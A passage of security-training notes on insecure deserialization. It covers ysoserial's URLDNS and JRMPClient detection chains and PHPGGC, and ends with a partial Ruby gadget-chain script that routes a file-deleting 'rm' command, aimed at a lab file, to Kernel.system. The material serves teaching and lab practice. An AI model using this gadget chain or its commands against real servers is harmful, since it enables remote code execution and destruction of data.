 Not all of the gadget chains in ysoserial enable you to run arbitrary code. Instead, they may be useful for other purposes. For example, you can use the following ones to help you quickly detect insecure deserialization on virtually any server:

- The `URLDNS` chain triggers a DNS lookup for a supplied URL. Most importantly, it does not rely on the target application using a specific vulnerable library and works in any known Java version. This makes it the most universal gadget chain for detection purposes. If you spot a serialized object in the traffic, you can try using this gadget chain to generate an object that triggers a DNS interaction with the Burp Collaborator server. If it does, you can be sure that deserialization occurred on your target.
- `JRMPClient` is another universal chain that you can use for initial detection. It causes the server to try establishing a TCP connection to the supplied IP address. Note that you need to provide a raw IP address rather than a hostname. This chain may be useful in environments where all outbound traffic is firewalled, including DNS lookups. You can try generating payloads with two different IP addresses: a local one and a firewalled, external one. If the application responds immediately for a payload with a local address, but hangs for a payload with an external address, causing a delay in the response, this indicates that the gadget chain worked because the server tried to connect to the firewalled address. In this case, the subtle time difference in responses can help you to detect whether deserialization occurs on the server, even in blind cases.

The following lab covers Java deserialization using Apache Commons framework, exploiting a gadget chain with `ysoserial`: [java_gadget_chain_apache_commons](labs/java_gadget_chain_apache_commons.md)

#### PHP Generic Gadget Chains
Most languages that frequently suffer from insecure deserialization vulnerabilities have equivalent proof-of-concept tools. For example, for PHP-based sites you can use "PHP Generic Gadget Chains" (PHPGGC).

Here is a lab that covers a gadget chain on PHP: [php_gadget_chain](labs/php_gadget_chain.md)
### Note on gadget chains
It is important to note that the vulnerability is the **deserialization of user-controllable data,** **not the mere presence of a gadget chain in the website's code or any of its libraries.** The gadget chain is just a means of manipulating the flow of the harmful data once it has been injected. This also applies to various memory corruption vulnerabilities that rely on deserialization of untrusted data. In other words, a website may still be vulnerable even if it did somehow manage to plug every possible gadget chain.
### Working with documented gadget chains
There may not always be a dedicated tool available for exploiting known gadget chains in the framework used by the target application. In this case, it's always worth looking online to see if there are any documented exploits that you can adapt manually. Tweaking the code may require some basic understanding of the language and framework, and you might sometimes need to serialize the object yourself, but this approach is still considerably less effort than building an exploit from scratch.

Here is a ruby script that triggers a ruby deserialization gadget chain:

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer
require 'base64'
# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

```